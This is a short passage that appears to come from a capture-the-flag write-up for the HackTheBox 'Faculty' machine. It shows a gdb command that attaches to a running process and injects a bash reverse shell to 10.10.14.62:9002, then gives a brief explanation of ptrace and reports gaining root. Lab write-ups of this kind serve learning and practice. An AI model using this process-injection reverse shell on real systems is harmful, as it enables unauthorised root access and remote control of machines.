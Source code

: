 ```bash
# attach process
gdb -p 732
# inject command
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.14.62/9002 0>&1'")

```

what is ptrace?

ptrace is **a system call found in Unix and several Unix-like operating systems**. By using ptrace (the name is an abbreviation of "process trace") one process can control another, enabling the controller to inspect and manipulate the internal state of its target.

got root!

![photo7](/assets/images/2022-11-18-htb-faculty/Pasted_image_20220706011117.png)